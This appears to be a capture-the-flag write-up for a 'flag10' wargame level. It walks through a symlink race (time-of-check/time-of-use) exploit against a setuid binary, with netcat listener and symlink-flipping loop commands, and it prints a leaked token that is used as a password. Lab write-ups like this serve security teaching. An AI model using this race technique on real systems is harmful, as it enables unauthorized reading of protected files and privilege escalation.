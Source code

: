 You need 3 shells to implement a race condition on a symbolic link (symlink attackk)
All shells must in a working directory the user have write permission, like "/tmp"
# Shell 1
## open a TCP socket to listen to remote connection   
`nc -lk 18211|tee out`

# Shell 2
## 1 - create the file to be used for the race condition
`echo "here we go" > /tmp/token`
-----> the file "/tmp/token" is the one  we are going to use to try to fool the code with a symlink

## 2 - Constantly creates  a symlink between the file we wanna read and the file we use as bait

`while true; do ln -sf /home/flag10/token /tmp/test; ln -sf /tmp/token /tmp/test; done`
-----> an infinite loop that creates a symlink from "/home/flag10/token" to "/tmp/test" right after this , it creates a symlink from "/tmp/token" to "/tmp/test"
-----> switching between those files using a symlink can fool the "access" function that we have access to the restricted file "/home/flag10/token"

# Shell 3
## 1 - Constantly sends the symlink to the the remote connection openned 
`while true; do /home/flag10/flag10 /tmp/test 127.0.0.1; done`
-----> infinite loop to keep sending the symlink file

# **After seeing a content different, stop all 3 processes in the 3 shells**

## 1 - sort and remove duplicates from output file
`sort out | uniq`
**-----> which will output** 

```
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
Here I have full access.
.oO Oo.
```

we can use "615a2ce1-b2b5-4c76-8eed-8aa5c4015c27" as a password to login as user flag10

then you can run getflag